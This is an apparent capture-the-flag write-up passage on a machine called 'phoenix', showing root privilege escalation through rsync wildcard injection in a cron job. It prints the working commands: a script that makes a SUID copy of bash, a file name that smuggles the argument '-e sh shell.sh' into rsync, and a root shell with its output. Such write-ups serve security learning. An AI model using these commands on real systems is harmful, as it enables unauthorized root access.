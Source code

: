 Looking at [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks) I could spot our privilege escalation path!
The idea is to inject code since `rsync` might be using a wildcard to get all the file names.
We can create a file that will add an argument to the `rsync` command and execute a bash script. The file `shell.sh` will make a copy of bash and set the SUID permissions to it.
```bash
editor@phoenix:/backups$ echo 'cp /usr/bin/bash /tmp/rootbash;chmod +s /tmp/rootbash' > shell.sh
editor@phoenix:/backups$ chmod +x shell.sh
editor@phoenix:/backups$ touch "/backups/-e sh shell.sh"
```

The `/backups` directory should look like this. Now we just wait for the cronjob:
![[phoenix/images/image7.png]]

And here it is, we have a copy of  `bash` with the SUID bit:
![[image8.png]]

Lets get a root shell:
```bash
editor@phoenix:/tmp$ ./rootbash -p

rootbash-5.0$ id
uid=1002(editor) gid=1002(editor) euid=0(root) egid=0(root) groups=0(root),1002(editor)

rootbash-5.0$ cd /root
rootbash-5.0$ ls -la
total 128
drwx------  8 root root  4096 Feb 25 19:40 .
drwxr-xr-x 20 root root  4096 Feb 25 19:40 ..
-rwxr-xr-x  1 root root   142 Feb 13 20:16 adapter.sh
lrwxrwxrwx  1 root root     9 Nov 13 10:41 .bash_history -> /dev/null
drwx------  2 root root  4096 Feb 25 15:07 .cache
drwx------  4 root root  4096 Feb 25 15:07 .config
-rw-r--r--  1 root root   275 Feb 16 22:27 cron.sh
-rwxrwxr-x  1 root root 15392 Feb 16 22:27 cron.sh.x
-rw-r--r--  1 root root 18960 Feb 16 22:27 cron.sh.x.c
drwxr-xr-x  3 root root  4096 Feb 25 15:07 .local
lrwxrwxrwx  1 root root     9 Nov 13 10:45 .mysql_history -> /dev/null
lrwxrwxrwx  1 root root     9 Feb 25 13:21 .python_history -> /dev/null
-rw-r-----  1 root root    33 Mar 20 23:58 root.txt
drwx------  2 root root  4096 Feb 25 15:07 .ssh
drwxr-xr-x  3 root root  4096 Feb 25 15:07 .subversion
drwxr-xr-x  2 root root  4096 Feb 25 15:07 .vim
-rw-r--r--  1 root root 49006 Nov 25 12:29 .zcompdump
```